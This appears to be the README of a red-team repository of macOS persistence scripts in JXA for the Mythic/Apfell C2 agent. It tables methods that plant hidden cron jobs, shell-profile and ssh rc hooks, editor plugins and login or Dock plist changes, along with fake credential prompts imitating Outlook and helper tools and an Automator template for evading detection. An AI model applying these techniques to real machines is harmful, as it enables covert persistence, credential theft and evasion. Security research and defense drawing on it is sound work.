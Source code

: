 # PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />
Related blog posts: 
- https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5
- https://posts.specterops.io/are-you-docking-kidding-me-9aa79c24bdc1

# Usage
* In Mythic (Apfell Agent) :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **AtomPersist** |  Persistence using the Atom init script. Appends the Atom init script to execute our command. <br /> Persistence executes upon Atom opening. |jsimport_call AtomPersist('osascript -l JavaScript -e ...') | Modification to end of: <br /> /System/Volumes/Data/Users/{User}/.atom/init.coffee | N/A ||
| **BashProfilePersist** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | jsimport_call BashProfilePersist('osascript -l JavaScript -e ...', "no") |  $HOME/.bash_profile or  $HOME/.zshenv <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CalendarPersist** | Persistence via macOS Calendar.app alerts. This script will create new events and inserts them into the calendar with an alert that executes an application. There is additional funcitionality to modify exsiting events, list calendars, list events, and hide calendars. <br /> Persistence executes upon the event alert which triggers the specified persistence application. See https://github.com/FSecureLABS/CalendarPersist for usage details and background | jsimport_call persist_calalert("Fake Meeting", "/Users/Shared/Persist.app", 60, "daily", 1, 3, "FB825EFC-C65F-4959-8BDC-EBDF9E886C45")) | /Users/{USER}/Calendars/Calendar Cache | ***If hide_calendar function used:*** <br /> sh -c defaults write com.apple.iCal DisabledCalendars -dict MainWindow '({uid})'|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | jsimport_call CronJobPersistence('osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br />  sh -c (Persistence Action)|
| **DockPersist** | Modifies the apple dock plist for persistence. Requires an application to be present on target. Persistence executes upon user interaction. | jsimport_call DockPersist("Safari", "com.apple.automator.Safari","yes") <br /> or <br /> jsimport_call DockPersist("Google Chrome", "com.apple.automator.Google-Chrome","yes") | $HOME/Library/Preferences/com.apple.dock.plist |  ***If ReloadNow function used:*** <br /> /usr/bin/killall Dock |
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  jsimport_call FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | jsimport_call LoginScript('osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh |  sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | jsimport_call PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | sh -c (Persistence Action)|
| **SSHrc** |  Modifies or creates SSH rc file to execute persistence when the user logs in with SSH and if the persistence process (current implementation assumes osascript) is not already running. <br /> See https://twitter.com/0xdade/status/1373145566943711235?s=20 for more details. | jsimport_call SSHrc('osascript -l JavaScript -e ...', "no") |  $HOME/.ssh/rc <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh |
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|jsimport_call SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications/Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed upon the opening of Sublime. <br />  Persistence executes upon Sublime opening. | jsimport_call SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed  upon the opening of vim. <br />  Persistence executes upon vim opening. | jsimport_call VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| js_importcall DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **InjectCheck** | Process Injection Checker. The tool enumerates the Hardened Runtime, Entitlements, and presence of Electron files to determine possible injection opportunities | js_importcall InjectCheck("All") <br /> or <br /> js_importcall InjectCheck("/Applications/Firefox.app") | N/A | N/A |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | js_importcall PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | js_importcall OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
